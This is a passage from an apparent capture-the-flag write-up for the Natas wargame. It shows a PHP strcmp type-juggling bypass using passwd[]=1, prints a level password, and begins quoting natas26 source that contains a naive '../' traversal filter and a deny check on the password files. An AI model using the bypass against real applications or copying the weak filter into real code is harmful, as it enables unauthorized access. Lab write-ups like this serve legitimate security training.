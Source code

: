 [https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf](https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf)

So of we pass passwd\[\]=1 we can cause 'strcmp\(\) to barf'.

```php
strcmp(array(),"<censored>") -> NULL
```

```php
if((!strcmp)
# is the same as
if(strcmp == false)
```

Since the functions checks for a 0 we can use this 'barf' to get what we want.

```php
if(!strcmp($_REQUEST["passwd"],"<censored>")){
    # stuff
}
```

if we pass passwd\[\]=1 it will look like this.

```php
if(!strcmp(array(),"<censored>")){
    # stuff
}
```

GHF6X7YwACaYYssHVY05cFq83hRktl4c

### natas26

```php
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en");
    }

    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) {
            include($filename);
            return 1;
        }
        return 0;
    }

    function listFiles($path){
```